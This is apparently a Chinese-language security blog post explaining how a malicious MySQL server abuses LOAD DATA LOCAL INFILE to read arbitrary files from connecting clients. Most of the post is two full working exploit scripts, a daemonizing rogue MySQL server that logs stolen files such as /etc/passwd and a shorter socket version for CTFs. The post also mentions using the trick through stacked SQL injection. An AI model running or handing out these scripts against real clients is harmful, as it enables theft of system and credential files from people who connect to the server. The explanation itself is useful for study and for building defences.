




原理简析
看了网上关羽这方面的几篇文章，我觉得这个漏洞还是比较有意思的，虽说一般不会用到
就现在来说，往往服务器对安全的防御是比较高的，而个人主机，或者说客户端则不同，往往没有很高的防护，一个杀毒软件就基本了事
恶意mysql利用了一个很有意思的mysql现象
load data local
mysql有两个语句：
读取服务器的文件到数据库：load data infile “文件路径” into table 表名
读取客户端文件到数据库： load data local infile “文件路径” into table 表名
这里也比较有意思，第一条语句会因为权限问题，secure-file-priv 配置问题导致写入失败，而第二条来着不拒，着实离谱

这里我使用普通用户权限运行mysql

可以看到，上面load data local 写入成功，下面报错
感情我在服务器本地访问mysql算客户端[好像也没毛病]，那是不是有个sql注入我就能读文件了
注：经测试确实可以，不过目前测试只能用于堆叠注入
mysql读取文件三次握手
刚一时觉得这语句过于离谱跑题了，言归正传
上面我们现在已经知道了load data local 语句可以读取客户端的文件
这条语句运行时，客户端和mysql会有一个类似三次握手的请求过程
口语化来说就是这样：
客户端：我这有个/var/www/html/1.txt文件，你把它读进你数据库里
mysql： 行，给我你的/var/www/html/1.txt
客户端：给，这是我的/var/www/html/1.txt
mysql： 收到了，ok
但第一句和第二句其实没有必然的关系，这是第二个离谱的地方
官方也指出了这个语法的问题：

简单说就是
客户端：我这有个/var/www/html/1.txt文件，你把它读进你数据库里
mysql： 行，给我你的/etc/passwd
客户端：给，这是我的/etc/passwd
mysql： 收到了，ok
就是这样，客户端离谱的就像一个小受
mysql最终读进数据库的文件和客户端最初想给的没有半毛钱关系
mysql访问即请求
我刚看到这里的时候，有一个问题，如果客户端不发送load data local 请求，那不就无法读取请求了
可我万万没想到，这里还能更离谱

正如上图所示，Client和服务器之间的交互其实是可以从查询开始的
口语理解就是
客户端：我想执行select * from aaa
mysql： 行，给我你的/etc/passwd
客户端：给，这是我的/etc/passwd
mysql： 收到了，ok
就很离谱
而但各个语言的第三方包连接mysql时，基本都会在连接成功后发送一个select 语句查询版本号，编码之类的数据
这就相当于只要Client访问了mysql的网站，第一步请求就完成了，如果mysql返回了恶意请求，Client就会直接被恶意攻击
制作恶意服务端
综上所述，制作恶意服务器实际上只需要伪造两个数据包
1、mysql收到客户端请求后发送的读取文件的请求
2、mysql成功读取到文件的确认请求
这两个包的格式exp，poc都可以直接在官方文档找到
https://dev.mysql.com/doc/internals/en/com-query-response.html
不过弄了半天，发现手撸数据包这种事我果然还是有点不会，先记小本本上以后学
这里又两个已经写好的exp
exp1
运行时后台静默，监控同目录下mysql.log查看结果
可同时读取多个文件，功能强大
适合用于制作蜜罐
#!/usr/bin/env python
#coding: utf8
import socket
import asyncore
import asynchat
import struct
import random
import logging
import logging.handlers
PORT = 3306
log = logging.getLogger(__name__)
log.setLevel(logging.DEBUG)
tmp_format = logging.handlers.WatchedFileHandler('mysql.log', 'ab')
tmp_format.setFormatter(logging.Formatter("%(asctime)s:%(levelname)s:%(message)s"))
log.addHandler(
tmp_format
)
filelist = (
# r'c:\boot.ini',
# r'c:\windows\win.ini',
# r'c:\windows\system32\drivers\etc\hosts',
'/etc/passwd',
# '/etc/shadow',
)
#================================================
#=======No need to change after this lines=======
#================================================
__author__ = 'Gifts'
def daemonize():
import os, warnings
if os.name != 'posix':
warnings.warn('Cant create daemon on non-posix system')
return
if os.fork(): os._exit(0)
os.setsid()
if os.fork(): os._exit(0)
os.umask(0o022)
null=os.open('/dev/null', os.O_RDWR)
for i in xrange(3):
try:
os.dup2(null, i)
except OSError as e:
if e.errno != 9: raise
os.close(null)
class LastPacket(Exception):
pass
class OutOfOrder(Exception):
pass
class mysql_packet(object):
packet_header = struct.Struct('<Hbb')
packet_header_long = struct.Struct('<Hbbb')
def __init__(self, packet_type, payload):
if isinstance(packet_type, mysql_packet):
self.packet_num = packet_type.packet_num + 1
else:
self.packet_num = packet_type
self.payload = payload
def __str__(self):
payload_len = len(self.payload)
if payload_len < 65536:
header = mysql_packet.packet_header.pack(payload_len, 0, self.packet_num)
else:
header = mysql_packet.packet_header.pack(payload_len & 0xFFFF, payload_len >> 16, 0, self.packet_num)
result = "{0}{1}".format(
header,
self.payload
)
return result
def __repr__(self):
return repr(str(self))
@staticmethod
def parse(raw_data):
packet_num = ord(raw_data[0])
payload = raw_data[1:]
return mysql_packet(packet_num, payload)
class http_request_handler(asynchat.async_chat):
def __init__(self, addr):
asynchat.async_chat.__init__(self, sock=addr[0])
self.addr = addr[1]
self.ibuffer = []
self.set_terminator(3)
self.state = 'LEN'
self.sub_state = 'Auth'
self.logined = False
self.push(
mysql_packet(
0,
"".join((
'\x0a', # Protocol
'3.0.0-Evil_Mysql_Server' + '\0', # Version
#'5.1.66-0+squeeze1' + '\0',
'\x36\x00\x00\x00', # Thread ID
'evilsalt' + '\0', # Salt
'\xdf\xf7', # Capabilities
'\x08', # Collation
'\x02\x00', # Server Status
'\0' * 13, # Unknown
'evil2222' + '\0',
))
)
)
self.order = 1
self.states = ['LOGIN', 'CAPS', 'ANY']
def push(self, data):
log.debug('Pushed: %r', data)
data = str(data)
asynchat.async_chat.push(self, data)
def collect_incoming_data(self, data):
log.debug('Data recved: %r', data)
self.ibuffer.append(data)
def found_terminator(self):
data = "".join(self.ibuffer)
self.ibuffer = []
if self.state == 'LEN':
len_bytes = ord(data[0]) + 256*ord(data[1]) + 65536*ord(data[2]) + 1
if len_bytes < 65536:
self.set_terminator(len_bytes)
self.state = 'Data'
else:
self.state = 'MoreLength'
elif self.state == 'MoreLength':
if data[0] != '\0':
self.push(None)
self.close_when_done()
else:
self.state = 'Data'
elif self.state == 'Data':
packet = mysql_packet.parse(data)
try:
if self.order != packet.packet_num:
raise OutOfOrder()
else:
# Fix ?
self.order = packet.packet_num + 2
if packet.packet_num == 0:
if packet.payload[0] == '\x03':
log.info('Query')
filename = random.choice(filelist)
PACKET = mysql_packet(
packet,
'\xFB{0}'.format(filename)
)
self.set_terminator(3)
self.state = 'LEN'
self.sub_state = 'File'
self.push(PACKET)
elif packet.payload[0] == '\x1b':
log.info('SelectDB')
self.push(mysql_packet(
packet,
'\xfe\x00\x00\x02\x00'
))
raise LastPacket()
elif packet.payload[0] in '\x02':
self.push(mysql_packet(
packet, '\0\0\0\x02\0\0\0'
))
raise LastPacket()
elif packet.payload == '\x00\x01':
self.push(None)
self.close_when_done()
else:
raise ValueError()
else:
if self.sub_state == 'File':
log.info('-- result')
log.info('Result: %r', data)
if len(data) == 1:
self.push(
mysql_packet(packet, '\0\0\0\x02\0\0\0')
)
raise LastPacket()
else:
self.set_terminator(3)
self.state = 'LEN'
self.order = packet.packet_num + 1
elif self.sub_state == 'Auth':
self.push(mysql_packet(
packet, '\0\0\0\x02\0\0\0'
))
raise LastPacket()
else:
log.info('-- else')
raise ValueError('Unknown packet')
except LastPacket:
log.info('Last packet')
self.state = 'LEN'
self.sub_state = None
self.order = 0
self.set_terminator(3)
except OutOfOrder:
log.warning('Out of order')
self.push(None)
self.close_when_done()
else:
log.error('Unknown state')
self.push('None')
self.close_when_done()
class mysql_listener(asyncore.dispatcher):
def __init__(self, sock=None):
asyncore.dispatcher.__init__(self, sock)
if not sock:
self.create_socket(socket.AF_INET, socket.SOCK_STREAM)
self.set_reuse_addr()
try:
self.bind(('', PORT))
except socket.error:
exit()
self.listen(5)
def handle_accept(self):
pair = self.accept()
if pair is not None:
log.info('Conn from: %r', pair[1])
tmp = http_request_handler(pair)
z = mysql_listener()
daemonize()
asyncore.loop()
exp2
直接启动，前台监控3306等待响应
功能较少，但使用方便
适合CTF做题，靶场测试等
import socket
import logging
logging.basicConfig(level=logging.DEBUG)
sv=socket.socket()
sv.bind(("",3306))
sv.listen(5)
conn,address=sv.accept()
logging.info('Conn from: %r', address)
conn.sendall("\x4a\x00\x00\x00\x0a\x35\x2e\x35\x2e\x35\x33\x00\x17\x00\x00\x00\x6e\x7a\x3b\x54\x76\x73\x61\x6a\x00\xff\xf7\x21\x02\x00\x0f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x70\x76\x21\x3d\x50\x5c\x5a\x32\x2a\x7a\x49\x3f\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00")
conn.recv(9999)
logging.info("auth okay")
conn.sendall("\x07\x00\x00\x02\x00\x00\x00\x02\x00\x00\x00")
conn.recv(9999)
logging.info("want file...")
wantfile=chr(len(filename)+1)+"\x00\x00\x01\xFB"+filename
conn.sendall(wantfile)
content=conn.recv(9999)
logging.info(content)
conn.close()
参考文章
https://yml-sec.top/2019/12/30/%E7%A7%AF%E7%B4%AF%E7%9A%84%E4%B8%80%E4%BA%9Bweb%E9%A2%98%E7%9B%AE/#Black-Watch-%E5%85%A5%E7%BE%A4%E9%A2%98-Web2
https://github.com/Gifts/Rogue-MySql-Server/blob/master/rogue_mysql_server.py
https://lightless.me/archives/read-mysql-client-file.html
https://www.modb.pro/db/120299